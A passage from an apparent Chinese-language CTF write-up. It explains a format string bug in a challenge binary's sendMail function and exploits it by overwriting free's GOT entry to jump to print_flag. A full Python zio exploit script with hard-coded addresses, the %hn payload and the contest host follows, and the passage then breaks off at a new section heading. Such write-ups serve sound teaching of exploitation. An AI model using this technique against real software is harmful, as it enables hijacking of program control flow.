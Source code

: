 直接无脑 F5 ，可以看到 sendMail 直接 printf 了输入，所以就有一个 Format String 漏洞。

当然，要任意地址写得有个数据在栈上，然后发现用户名在栈上，再追一下栈上的数据，可以看到 76 的位置放着用户名，所以我可以任意地址写了。

然后本来还想怎么泄漏 libc 的地址什么的，结果再看看代码，那里躺着一个 print_flag 。。。这下就简单了，发现在 sendMail 后返回后跟着三个 free ，我直接改 free 的 got 表，让他跳到 print_flag 就行了，直接上代码。

```
#coding:utf-8
from zio import *

print_flag = 0x08048BBD
free_addr = 0x0804C014

exp = """%134515645x%76$hn"""

io = zio(('exploit.alictf.com',5608))
''' # 第一次注册要用这个
io.read_until('Quit')
io.writeline('1')
io.read_until('Name:')
io.writeline(l32(free_addr))
io.read_until('ass:')
io.writeline('1234')
'''

io.read_until('Quit')
io.writeline('2')
io.read_until('Name:')
io.writeline(l32(free_addr))
io.read_until('ass:')
io.writeline('1234')
io.read_until('Quit')
io.writeline('3')
io.read_until('To:')

io.writeline(exp)
''' # 这下面的去掉不然会超时，最后自己随便写就好了
io.read_until('Title:')
io.writeline('123')
io.read_until('Body:')
io.writeline('123')
io.read_until('Quit')
io.writeline('3')
'''
io.interact()

```

0x08 业务逻辑和渗透
=====

先弄个正常的用户，找回密码，发现给了个地址
